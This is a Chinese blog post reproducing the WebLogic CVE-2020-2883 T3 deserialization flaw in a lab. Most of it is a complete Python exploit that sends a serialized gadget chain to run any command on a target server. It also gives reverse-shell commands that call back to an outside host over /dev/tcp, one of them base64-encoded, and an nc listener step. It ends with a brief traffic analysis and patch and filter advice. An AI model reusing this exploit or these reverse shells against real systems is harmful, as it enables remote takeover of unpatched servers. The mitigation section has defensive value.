



# CVE-2020-2883 漏洞复现&&流量分析 - Zh1z3ven - 博客园

> 原文：[`www.cnblogs.com/CoLo/p/13667711.html`](https://www.cnblogs.com/CoLo/p/13667711.html)

## CVE-2020-2883 漏洞复现&&流量分析

## 写在前面

网上大佬说 CVE-2020-2883 是 CVE-2020-2555 的绕过，下面就复现了抓包看看吧。

### 一、准备环境

靶机：win7 weblogic 12.2.1.4.0 jdk1.8

攻击机：物理机

poc：

```
# -*- coding: utf-8 -*-
import socket
import time
import ssl
import binascii
import urlparse
import argparse
import sys

globalProxies = {}
header = {
    'User-Agent': "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:71.0) Gecko/20100101 Firefox/71.0"
    }

def parseUrl(url):
    parsed = urlparse.urlparse(url)
    proto = parsed.scheme
    netloc = parsed.netloc
    ip = netloc
    if proto == 'http':
        port = 80
    else:
        port = 443

    if (':' in netloc):
        ip = netloc.split(':')[0]
        port = netloc.split(':')[1]

    uri = parsed.path
    return (proto, ip, port, uri)

def CVE_2020_2883(cmd):
    payload_start = 'aced0005737200176a6176612e7574696c2e5072696f72697479517565756594da30b4fb3f82b103000249000473697a654c000a636f6d70617261746f727400164c6a6176612f7574696c2f436f6d70617261746f723b78700000000273720030636f6d2e74616e676f736f6c2e7574696c2e636f6d70617261746f722e457874726163746f72436f6d70617261746f72c7ad6d3a676f3c180200014c000b6d5f657874726163746f727400224c636f6d2f74616e676f736f6c2f7574696c2f56616c7565457874726163746f723b78707372002c636f6d2e74616e676f736f6c2e7574696c2e657874726163746f722e436861696e6564457874726163746f72889f81b0945d5b7f02000078720036636f6d2e74616e676f736f6c2e7574696c2e657874726163746f722e4162737472616374436f6d706f73697465457874726163746f72086b3d8c05690f440200015b000c6d5f61457874726163746f727400235b4c636f6d2f74616e676f736f6c2f7574696c2f56616c7565457874726163746f723b7872002d636f6d2e74616e676f736f6c2e7574696c2e657874726163746f722e4162737472616374457874726163746f72658195303e7238210200014900096d5f6e546172676574787000000000757200235b4c636f6d2e74616e676f736f6c2e7574696c2e56616c7565457874726163746f723b2246204735c4a0fe0200007870000000037372002f636f6d2e74616e676f736f6c2e7574696c2e657874726163746f722e5265666c656374696f6e457874726163746f72ee7ae995c02fb4a20200025b00096d5f616f506172616d7400135b4c6a6176612f6c616e672f4f626a6563743b4c00096d5f734d6574686f647400124c6a6176612f6c616e672f537472696e673b7871007e000900000000757200135b4c6a6176612e6c616e672e4f626a6563743b90ce589f1073296c02000078700000000274000a67657452756e74696d65757200125b4c6a6176612e6c616e672e436c6173733bab16d7aecbcd5a990200007870000000007400096765744d6574686f647371007e000d000000007571007e001100000002707571007e001100000000740006696e766f6b657371007e000d000000007571007e00110000000174'
    payload_lenhex = '{:04x}'.format(len(cmd))
    payload_cmdhex = binascii.b2a_hex(cmd)
    payload_end = '74000465786563770400000003767200116a6176612e6c616e672e52756e74696d65000000000000000000000078707400013178'
    payload = payload_start + payload_lenhex + payload_cmdhex + payload_end

    return payload

class payloadtest(object):
    def __init__(self):

        self.vuln = 'cve_2020_2883'

    def t3handshake(self,sock,server_addr):
        sock.connect(server_addr)
        sock.send('74332031322e322e310a41533a3235350a484c3a31390a4d533a31303030303030300a0a'.decode('hex'))
        time.sleep(1)
        data = sock.recv(1024)
        #print data
        #print 'handshake successful'

    def buildT3RequestObject(self,sock,port):
        data1 = '000005c3016501ffffffffffffffff0000006a0000ea600000001900937b484a56fa4a777666f581daa4f5b90e2aebfc607499b4027973720078720178720278700000000a000000030000000000000006007070707070700000000a000000030000000000000006007006fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200247765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e5061636b616765496e666fe6f723e7b8ae1ec90200084900056d616a6f724900056d696e6f7249000c726f6c6c696e67506174636849000b736572766963655061636b5a000e74656d706f7261727950617463684c0009696d706c5469746c657400124c6a6176612f6c616e672f537472696e673b4c000a696d706c56656e646f7271007e00034c000b696d706c56657273696f6e71007e000378707702000078fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200247765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e56657273696f6e496e666f972245516452463e0200035b00087061636b616765737400275b4c7765626c6f6769632f636f6d6d6f6e2f696e7465726e616c2f5061636b616765496e666f3b4c000e72656c6561736556657273696f6e7400124c6a6176612f6c616e672f537472696e673b5b001276657273696f6e496e666f417342797465737400025b42787200247765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e5061636b616765496e666fe6f723e7b8ae1ec90200084900056d616a6f724900056d696e6f7249000c726f6c6c696e67506174636849000b736572766963655061636b5a000e74656d706f7261727950617463684c0009696d706c5469746c6571007e00044c000a696d706c56656e646f7271007e00044c000b696d706c56657273696f6e71007e000478707702000078fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200217765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e50656572496e666f585474f39bc908f10200064900056d616a6f724900056d696e6f7249000c726f6c6c696e67506174636849000b736572766963655061636b5a000e74656d706f7261727950617463685b00087061636b616765737400275b4c7765626c6f6769632f636f6d6d6f6e2f696e7465726e616c2f5061636b616765496e666f3b787200247765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e56657273696f6e496e666f972245516452463e0200035b00087061636b6167657371'
        data2 = '007e00034c000e72656c6561736556657273696f6e7400124c6a6176612f6c616e672f537472696e673b5b001276657273696f6e496e666f417342797465737400025b42787200247765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e5061636b616765496e666fe6f723e7b8ae1ec90200084900056d616a6f724900056d696e6f7249000c726f6c6c696e67506174636849000b736572766963655061636b5a000e74656d706f7261727950617463684c0009696d706c5469746c6571007e00054c000a696d706c56656e646f7271007e00054c000b696d706c56657273696f6e71007e000578707702000078fe00fffe010000aced0005737200137765626c6f6769632e726a766d2e4a564d4944dc49c23ede121e2a0c000078707750210000000000000000000d3139322e3136382e312e323237001257494e2d4147444d565155423154362e656883348cd60000000700001b19ffffffffffffffffffffffffffffffffffffffffffffffff78fe010000aced0005737200137765626c6f6769632e726a766d2e4a564d4944dc49c23ede121e2a0c0000787077200114dc42bd07'
        data3 = '1a7727000d3234322e323134'
        data4 = '2e312e32353461863d1d0000000078'
        for d in [data1,data2,data3,data4]:
            sock.send(d.decode('hex'))
        time.sleep(2)
        #print 'send request payload successful,recv length:%d'%(len(sock.recv(2048)))

    def sendEvilObjData(self,sock,data):
        payload='056508000000010000001b0000005d010100737201787073720278700000000000000000757203787000000000787400087765626c6f67696375720478700000000c9c979a9a8c9a9bcfcf9b939a7400087765626c6f67696306fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200025b42acf317f8060854e002000078707702000078fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200135b4c6a6176612e6c616e672e4f626a6563743b90ce589f1073296c02000078707702000078fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200106a6176612e7574696c2e566563746f72d9977d5b803baf010300034900116361706163697479496e6372656d656e7449000c656c656d656e74436f756e745b000b656c656d656e74446174617400135b4c6a6176612f6c616e672f4f626a6563743b78707702000078fe010000'
        payload+=data
        payload+='fe010000aced0005737200257765626c6f6769632e726a766d2e496d6d757461626c6553657276696365436f6e74657874ddcba8706386f0ba0c0000787200297765626c6f6769632e726d692e70726f76696465722e426173696353657276696365436f6e74657874e4632236c5d4a71e0c0000787077020600737200267765626c6f6769632e726d692e696e7465726e616c2e4d6574686f6444657363726970746f7212485a828af7f67b0c000078707734002e61757468656e746963617465284c7765626c6f6769632e73656375726974792e61636c2e55736572496e666f3b290000001b7878fe00ff'
        payload = '%s%s'%('{:08x}'.format(len(payload)/2 + 4),payload)
        sock.send(payload.decode('hex'))
        time.sleep(2)
        sock.send(payload.decode('hex'))
        res = ''
        n=1
        try:
            while True:
                n += 1
                res += sock.recv(4096)
                time.sleep(0.1)
                if(n>15):
                    break
        except Exception as e:
            pass
        return res

    def check(self, url, cmd,timeout, proxies=globalProxies, **args):
        (proto, ip, port, uri) = parseUrl(url)

        server_addr = (ip, int(port))
        if proto == 'https':
            sock = ssl.wrap_socket(socket.socket(socket.AF_INET, socket.SOCK_STREAM))
        else:
            sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.settimeout(timeout)
        try:
            self.t3handshake(sock,server_addr)
            self.buildT3RequestObject(sock,port)
            payload = CVE_2020_2883(cmd)
            resp = self.sendEvilObjData(sock,payload)

            print ('Payload send succeed! Please check.')

            return True
        except Exception as e:
            print ('Failed! Exception:{}'.format(str(e)))

        return False

def poc(url,cmd):
    x = payloadtest()
    return x.check(url, cmd,20)

if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Weblogic cve-2020-2883 Exp',
                                     usage='use "python %(prog)s --help" for more information',
                                     formatter_class=argparse.RawTextHelpFormatter)
    parser.add_argument("-u", "--url",
                        dest="url",
                        help="the url to check"
                        )

    parser.add_argument("-c", "--cmd",
                        dest="cmd",
                        help="the cmd to run on the target"
                        )
    args = parser.parse_args()
    if not args.url or not args.cmd:
        sys.exit('Please assign url and cmd!')
    poc(args.url, args.cmd) 
```

win7 搭建 weblogic12.2.1.4.0：

[`www.cnblogs.com/Zh1z3ven/p/13663714.html`](https://www.cnblogs.com/Zh1z3ven/p/13663714.html)

### 二、漏洞复现

win7 进入 weblogic 目录下运行 startWeblogic 开启 weblogic 环境

在物理机浏览器访问 http://your-ip:7001/console

出现如下图控制台界面即为开启成功



在物理机运行上述测试 poc

```
python2 .\CVE-2020-2883.py -u http://192.168.124.158:7001 -c id 
```


ps：测试过 calc 并不弹计算器 不知道为什么

如果是 linux 环境，利用上面 poc 可反弹 shell

反弹 shell 命令

```
python weblogic-2883.py -u http://your-ip:port/ -c "bash -i >& /dev/tcp/1.1.1.1/19999 0>&1" 
```

编码 payload，在线网址:[`www.jackson-t.ca/runtime-exec-payloads.html`](http://www.jackson-t.ca/runtime-exec-payloads.html)

```
python weblogic-2883.py -u http://192.168.1.111:7001/ -c "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMjM2Lz
E5OTk5IDA+JjE=}|{base64,-d}|{bash,-i}" 
```

发送 payload 后开启 nc 监听

```
nc -lvp port 
```

### 三、流量分析

这里只有 windows 靶机的部分经过 T3 协议的流量

0x01 T3 协议握手包

每行以\n 结束，第一行返回 weblogic 版本


0x02 部分执行命令的 payload



0x03 反序列化魔头

ac ed 00 05 （其中 00 05 是版本号）java 的 rmi 基本都需要反序列化



### 四、修复建议&&解决方案

1.  更新 oracle 最新补丁

2.  用户可通过控制 T3 协议的访问来临时阻断针对这些漏洞的攻击。操作方法如下：

    ```
    1\. 进入 WebLogic 控制台，在 base_domain 的配置页面中，进入“安全”选项卡页面，点击“筛选器”，进入连接筛选器配置。
    2\. 在连接筛选器中输入：weblogic.security.net.ConnectionFilterImpl，参考以下写法，在连接筛选器规则中配置符合企业实际情况的规则

    127.0.0.1 * * allow t3 t3s
    本机 IP * * allow t3 t3s
    允许访问的 IP  * * allow t3 t3s  
    * * * deny t3 t3s

    3\. 保存后若规则未生效，建议重新启动 WebLogic 服务（重启 WebLogic 服务会导致业务中断，建议相关人员评估风险后，再进行操作）。 
    ```

### 五、参考文章

参考与 poc 来源：

[`chaceshadow.github.io/2020/08/23/weblogic-CVE-2020-2883/#漏洞复��%B`](https://chaceshadow.github.io/2020/08/23/weblogic-CVE-2020-2883/#%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%25B)

参考文章：

[`blog.csdn.net/weixin_29324013/article/details/80901275`](https://blog.csdn.net/weixin_29324013/article/details/80901275)

[`www.cnblogs.com/lcxblogs/p/13539535.html`](https://www.cnblogs.com/lcxblogs/p/13539535.html)